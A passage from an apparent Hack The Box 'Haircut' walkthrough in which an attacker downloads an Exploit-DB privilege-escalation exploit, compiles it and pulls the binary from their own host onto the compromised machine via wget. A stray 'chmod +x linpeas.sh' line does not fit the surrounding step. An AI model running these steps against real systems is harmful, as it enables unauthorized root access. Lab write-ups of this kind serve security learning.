 {% raw %}
```bash
┌──(kali㉿kali)-[~/Documents/htb/haircut]
└─$ wget https://www.exploit-db.com/raw/45010 -O verify.c
--2025-01-19 19:53:47--  https://www.exploit-db.com/raw/45010
Resolving www.exploit-db.com (www.exploit-db.com)... 192.124.249.13
Connecting to www.exploit-db.com (www.exploit-db.com)|192.124.249.13|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: unspecified [text/plain]
Saving to: ‘verify.c’

verify.c                                                       [  <=>                                                                                                                                    ]  13.41K  53.1KB/s    in 0.3s    

2025-01-19 19:53:48 (53.1 KB/s) - ‘verify.c’ saved [13728]
chmod +x linpeas.sh
```
{% endraw %}

<br />
Compile the exploit.

{% raw %}
```bash
┌──(kali㉿kali)-[~/Documents/htb/haircut]
└─$ gcc verify.c -o verify -static
```
{% endraw %}

<br />
Download the exploit to the current working folder.

{% raw %}
```bash
www-data@haircut:/dev/shm$ wget 10.10.16.3:8000/verify
wget 10.10.16.3:8000/verify
--2025-01-19 09:56:47--  http://10.10.16.3:8000/verify
Connecting to 10.10.16.3:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 797792 (779K) [application/octet-stream]
Saving to: 'verify'

verify              100%[===================>] 779.09K   869KB/s    in 0.9s    

2025-01-19 09:56:48 (869 KB/s) - 'verify' saved [797792/797792]
```
{% endraw %}

<br />
Chmod the exploit to make it executable.

{% raw %}
```bash
www-data@haircut:/dev/shm$ chmod +x verify
chmod +x verify
```
{% endraw %}
